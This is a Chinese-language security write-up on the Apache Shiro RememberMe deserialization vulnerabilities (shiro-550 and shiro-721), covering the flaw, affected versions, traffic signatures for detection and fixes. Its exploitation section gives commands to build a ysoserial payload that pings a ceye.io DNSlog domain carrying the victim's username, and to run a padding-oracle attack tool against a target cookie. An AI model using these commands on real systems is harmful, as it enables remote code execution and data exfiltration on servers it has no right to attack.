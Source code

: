 Apache Shiro框架提供了记住我的功能（RememberMe），用户登录成功后会生成经过加密并编码的cookie。cookie的key为RememberMe，cookie的值是经过相关信息进行序列化，然后使用AES加密（对称），最后再使用Base64编码处理。服务端在接收cookie时：

检索RememberMe Cookie的值=&gt;Base 64解码=&gt;AES解密（加密密钥硬编码,通常为默认密钥）=&gt;进行反序列化操作（未过滤处理）

攻击者可以使用Shiro的默认密钥构造恶意序列化对象进行编码来伪造用户的Cookie，服务端反序列化时触发漏洞，从而执行命令。

### 受影响版本

- Apache Shiro &lt;= 1.2.4 shiro-550
- Apache Shiro &lt;= 1.4.1 shiro-721

### 主要流量特征

#### 强特征

- 请求包cookie中有RememberMe字段,&lt;b&gt;&lt;u&gt;返回包中包含Set-Cookie: rememberMe=deleteMe字段&lt;/u&gt;&lt;/b&gt; 
    - 未登录:请求包cookie中没有rememberme字段,返回包set-Cookie里也没有deleteMe字段
    - 登陆失败:不管勾选RememberMe字段没有，返回包都会有rememberMe=deleteMe字段
    - 登陆成功: 
        - 不勾选RememberMe字段,返回包set-Cookie会有rememberMe=deleteMe字段。但是之后的所有请求中Cookie都不会有rememberMe字段
        - 勾选RememberMe字段,返回包set-Cookie会有rememberMe=deleteMe字段，还会有rememberMe字段，之后的所有请求中Cookie都会有rememberMe字段

### 利用方法

#### shiro550

##### 利用:

AES密钥硬编码在代码中,得到密钥后:

**&lt;u&gt;构造payload=&gt;序列化=&gt;AES编码=&gt;base64编码&lt;/u&gt;**

##### 修复:

- 去掉或替换默认密钥
- 升级shiro版本

#### shiro721

##### 利用:

- 首先利用ceye.io来搞一个DNSlog来作为yaoserial生成的payload:  
    java -jar ysoserial-master-30099844c6-1.jar CommonsBeanutils1 "ping %USERNAME%.jdjwu7.ceye.io" &gt; payload.class
- 再利用另一个脚本:  
    java -jar PaddingOracleAttack.jar targetUrl rememberMeCookie blockSize payloadFilePath  
    因为Shiro是用AES-CBC加密模式，所以blockSize的大小就是16  
    ![img](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-60ef83487aee53c90d3fefb2e582cd536c0596ec.jpeg)
- 运行后会在后台不断爆破，payload越长所需爆破时间就越长  
    ![img](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-274b34912c117eb910ac0f60b3f815a1d69407ef.jpeg)
- 将爆破的结果复制替换之前的cookie  
    ![img](https://shs3.b.qianxin.com/attack_forum/2024/03/attach-afa432235173145014da426165c0d886c9841cf3.jpeg)
